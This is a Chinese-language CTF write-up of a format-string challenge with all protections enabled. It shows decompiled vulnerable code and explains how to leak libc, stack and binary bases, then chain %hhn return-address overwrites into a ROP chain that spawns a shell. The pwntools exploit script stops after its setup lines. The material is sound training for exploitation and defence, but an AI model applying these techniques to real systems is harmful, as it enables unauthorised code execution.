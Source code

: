 保护全开的格式化字符串

**IDA 静态分析一下**

main()

```bash
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  run();
  return 0;
}
```

run()

```bash
unsigned __int64 run()
{
  char s1[88]; // [rsp+0h] [rbp-60h] BYREF
  unsigned __int64 v2; // [rsp+58h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("I need a str: ");
  read_n(s1, 80LL);
  if ( !strcmp(s1, "EXIT") )
    exit(0);
  printf(s1);
  putchar(10);
  printf("I need other str: ");
  read_n(s1, 80LL);
  printf(s1);
  return __readfsqword(0x28u) ^ v2;
}
```

可以看到这里其实就是格式化字符串的漏洞利用点了

第一个 printff 泄露栈上数据，得到 libc 基址，栈基址以及 elf 文件基址。第二次 printf 利用先前泄露的地址，通过%hhn，修改 run 函数返回地址的低位字节，将其修改为 main 函数中的 call run 指令。

这样当我们执行完 run 之后会再次调用 run，我们可以每次 printf 都往 run 函数的返回地址下方写入 rop 链，并将 run 的返回地址修改为 call run，这样返回到 rop 链在 run 的返回地址下布置好，最后一次再把 run 的返回地址改为与其相近的 ret 指令地址即可执行 rop 链从而 getshell。

[![](assets/1701612281-ccdf86a658da996b2267131236872926.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224313-6c89edf6-2579-1.png)

exp:

```bash
from pwn import *

context.log_level='debug'
context.arch='amd64'

p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
```